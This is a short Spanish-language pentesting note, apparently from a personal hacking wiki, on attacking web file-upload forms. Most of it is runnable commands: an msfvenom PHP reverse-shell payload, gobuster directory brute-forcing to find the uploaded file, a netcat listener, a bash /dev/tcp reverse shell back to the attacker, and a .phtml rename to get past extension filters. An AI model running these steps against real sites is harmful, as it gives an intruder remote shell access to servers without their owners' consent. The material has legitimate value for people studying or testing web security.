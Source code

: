 
Cuandouna web nos permite subir archivos hay que explotarlo bien, porque seguramente se pueda hacer una intrusión por ahí.
La forma de atacar será subir un archivo con un codigo malicioso que se puede crear con msfvenom



1 con Msfvenom generamos un payuload:
```sh fold:"Generar payload con msfvenom"
msfvenom -p php/reverse_php Lhost={IPlocal} LPORT={Local port} -f raw > pwned.php
```



Este archivo lo subimos con el formuulario de la web encontrado

Ahora tenemos que saber donde se ha subido para intentar ejecutarlo y ejecutar el codigo malicioso.

por tanto hacemos  Fuzzing con gobuster


```sh fold:"Buscar el fichero subido pwned.php con gobuster"
gobuster dir -u http://{ip} -w /usr/share/wordlist/dirbuster/directory-listls-lowercase-2.3-medium.txt
```


Si encontramos la carpeta /uploads o carpeta similares entramos
Una vez localizado nuestro fichero pwned.php solo nos falta

```sh fold:"Poner Netcat a la escucha en el puerto seleccionado en el fichero creado con msfvenom"
nc -nlvp {Local port}
```

Despues hacemos click sobre nuestro fichero para obtener la conexion en netcat


**Nota:** El payload con msfvenom funciona mal y al cabo del rato perdemos la conexion, por tatno lo primero que hacemos cuando hemos establacido conexion será abrir un nuevo terminal
con netcat nos ponemos a la escucha en otro puerto diferente al que hemos elegido previamente
y desde la conexion anterior nos enbviamos la reverse_shell:


```sh fold:"Enviar una conexion a nuestra maquina por el nuevo puerto"
bash -c "sh -i >&  /dev/tcp/{ip maquina local}/{nuevopuerto} 0>&1"
```


# Bypass Restriccion de FileUpload (Subir ficheros sin permiso de ficheros para ese formato)

cuando intentas subir un archivo en .php por ejemplo y no está permitido tenemos que Bypassear la restricción.

Intentamnos subir un fichero con extension .phtml
seria el mismo que en php pero cambiando directamente con un 

```sh fold:"Cambiar la extension de un fichero"
mv pwned.php pwned.phtml
```










